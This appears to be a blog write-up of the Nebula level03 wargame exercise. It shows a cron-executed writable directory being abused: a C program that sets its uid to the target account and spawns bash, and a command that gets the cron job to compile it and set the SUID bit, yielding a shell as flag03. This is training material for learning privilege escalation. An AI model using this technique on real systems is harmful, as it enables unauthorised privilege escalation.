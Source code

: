 ```yaml
---
title: "Exploit Exercises - Nebula 03"
date: "2011-12-04T15:22:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-03.html"
---
```


In [this](http://exploit-exercises.com/nebula/level03) challenge, we can see that there's no code for us to exploit, it's something in the system. 
I log in to the system, and look in the /home/flag03 folder, as all the other challenges have started.  I see there's a writable.sh script, which I was guessing was the script getting called on a crontab every couple minutes.  

<!-- more -->

It contained: 

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So this script looks like it will execute anything in the writable.d folder that we put in there.  And after some tinkering, I can see that it's running it as the flag03 user that we want to escalate to. 

My first thoughts were to create a bash script like previous challenges, and have it get created with SUID permissions.  However this didn't work, because apparently bash ignores the SUID bit, for security reasons.  I then read up on using perl, but couldn't get it to work, due to perl's built in protection.  Lastly, I settled on just good old C/C++. I spent forever messing around with this, because I was always setting the uid, but never the euid. When I forgot that, it would run bash, but I'd be the same user. I created this source file, and saved it to /tmp/level03.c 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setresuid(996, 996, 996);
    setresgid(996, 996, 996);
    system( "/bin/bash" );
    return 0;
}
```

NOTE: The "996" is the userid and groupid for flag03.  I found this by just doing 

```
level03@nebula:/home/flag03$ cat /etc/passwd
```

Now that I have a source file, I need to get the flag03 user to compile it, and mark it SUID, so that when it runs, it works as the user specified.  I did it by using the following command: 

```
level03@nebula:/home/flag03$ echo -e 'gcc -o /home/flag03/level03 /tmp/level03.c;chmod +s,a+rwx /home/flag03/level03' > /home/flag03/writable.d/bash; chmod +x /home/flag03/writable.d/bash
```

This will create a bash script to get picked up by the cron job.  It first compiles the /tmp/level03.c code file and outputs the binary to /home/flag03/level03.  Afterwards it sets the permissions to allow executing (and more technically) as well as SUID.  After this command, I had to wait a couple minutes for it to get picked up by the cron job, but then I ran it, and got access to flag03. 

```
level03@nebula:/home/flag03$ ./level03
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```
